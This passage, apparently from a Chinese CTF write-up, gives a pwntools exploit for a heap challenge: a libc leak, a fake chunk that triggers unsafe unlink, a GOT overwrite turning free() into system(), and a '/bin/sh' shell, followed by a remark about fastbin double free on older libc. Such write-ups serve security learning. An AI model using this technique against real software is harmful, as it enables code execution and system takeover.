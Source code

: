 ```python

mem_puts_addr = u64(io.recv(6) + b'\x00\x00')
libc_base = mem_puts_addr - libc_puts_addr
mem_sys_addr = libc_base + libc_sys_addr

io.recv()
io.sendline(b'CoLin')

create(0x420, 0, b'flag')
create(0x420, 1, b'flag')
delete(1)
delete(0)

payload = p64(0)		# fake chunk prev_size
payload += p64(0x420)	# fake chunk size
payload += p64(chunk_addr_bss - 0x18)	# fake chunk fd
payload += p64(chunk_addr_bss - 0x10)	# fake chunk_bk
payload += b'\x00' * 0x400	# useless filling data

payload += p64(0x420)	# front chunk prev_size (modified)
payload += p64(0x420)	# front size (modified)
payload += b'\x00' * 0x410	# useless filling data for front chunk

payload += p64(0x420)	# fake front-front chunk prev_size 
payload += p64(0x21)	# fake front-front chunk size with prev_inuse = true
create(0x860, 0, payload)

delete(1)				# trigger unlink_chunk(av, p)

# now the address of chunk_0 (0x6020e0) has been changed into 0x6020c8, we can edit the next chunk into .got.plt

payload = b'\x00' * 0x18	# useless data for filling
payload += p64(0x6020c8)	# chunk_0 address
payload += p64(1)			# chunk_0 inuse
payload += p64(0x602018)	# change the chunk_1 to .got.plt of free()
payload += p64(1)			# change chunk_1 into inuse

edit(0, payload)

edit(1, p64(mem_sys_addr))		# change the address, now free() equals system()

create(0x20, 2, b'/bin/sh')
delete(2)

io.interactive()
```

以上就是适用于目前最新版本libc的两种解题方案。如果版本比较老还可以考虑使用fastbin的double_free，但是考虑到目前比赛使用的glibc版本越来越高，这里只分析这两种方法。
